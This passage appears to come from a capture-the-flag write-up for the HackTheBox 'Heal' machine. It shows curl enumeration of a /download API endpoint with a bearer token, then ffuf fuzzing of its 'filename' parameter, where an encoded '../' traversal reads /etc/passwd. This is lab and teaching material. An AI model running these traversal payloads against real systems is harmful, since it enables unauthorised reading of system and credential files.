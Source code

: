 
We found a `/download` endpoint, let's try to enumerate it:

```
curl http://api.heal.htb/download
{"errors":"Invalid token"}
```

So, we need a token, my guess is that we need to create an account and get the token, when done, we can

```
curl "http://api.heal.htb/download?" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc" 
```

After creating our account we get our token, in my case, I got token:

```
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc
```


With our token, we can enumerate the api a bit more, let's check it out:

```
curl http://api.heal.htb/download -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc"
{"errors":"Error downloading file: no implicit conversion of nil into String"}
```

Now we are getting another error, let's try to fuzz in order to find our parameter, since this is a download endpoint we know that a parameter could be needed in order to use it, also, as we are dealing with this structure:

```
/download?parameter=file_to_download
```

After fuzzing we find the `filename` parameter, we can try fuzzing for LFI using ffuf:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://api.heal.htb/download?filename=FUZZ" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc" -fs 64 -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://api.heal.htb/download?filename=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Header           : Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 64
________________________________________________

..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 109ms]
```